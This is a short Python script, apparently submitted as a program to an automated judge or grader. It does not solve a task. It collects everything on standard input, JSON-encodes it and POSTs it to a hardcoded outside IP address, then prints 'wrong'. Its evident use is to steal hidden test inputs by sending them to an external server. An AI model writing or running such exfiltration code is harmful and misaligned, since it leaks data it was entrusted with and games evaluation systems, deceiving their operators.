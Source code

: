 import urllib.request
import json
data_list = []
while True:
    try:
        temp = input()
        data_list.append(temp)
    except EOFError:
        break
data = json.dumps(data_list)
data = 'input={}'.format(data)
data = data.encode('utf-8')
url = 'http://106.53.5.24:83'
req = urllib.request.Request(url) 
req.add_header('Content-Type', 'application/x-www-form-urlencoded;charset=utf-8')
res = urllib.request.urlopen(req, data).read()
print('wrong')
